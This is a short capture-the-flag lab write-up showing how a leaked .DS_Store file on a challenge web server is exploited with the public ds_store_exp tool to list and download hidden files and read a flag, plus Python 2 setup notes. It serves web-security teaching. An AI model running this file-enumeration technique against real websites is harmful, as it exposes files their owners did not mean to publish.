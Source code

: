 ```yaml
---
title: Simple Web 0x02(Lab - `.DS_Store`)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x02(Lab - `.DS_Store`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9001/

## Exploit - `.DS_Store`
Clone  `lijiejie/ds_store_exp`
```bash!
$ git clone https://github.com/lijiejie/ds_store_exp.git
$ python ds_store_exp.py http://h4ck3r.quest:9001/.DS_Store
[200] http://h4ck3r.quest:9001/.DS_Store
[200] http://h4ck3r.quest:9001/super_secret_meowmeow.php
[200] http://h4ck3r.quest:9001/index.php
$ cd h4ck3r.quest_9001
$ cat super_secret_meowmeow.php
FLAG{.DS_Store is so annoying lmao}
```
* Note that, must install `python 2`, `requests`, `ds_store` and modify `queue`(`import queue`→`import Queue as queue`)
    ```bash!
    $ conda create --name py2.7 python=2.7
    $ conda install -c auto ds_store
    $ conda install -c anaconda requests
    ```

## Reference
[python-no-module-named-queue](https://bobbyhadz.com/blog/python-no-module-named-queue)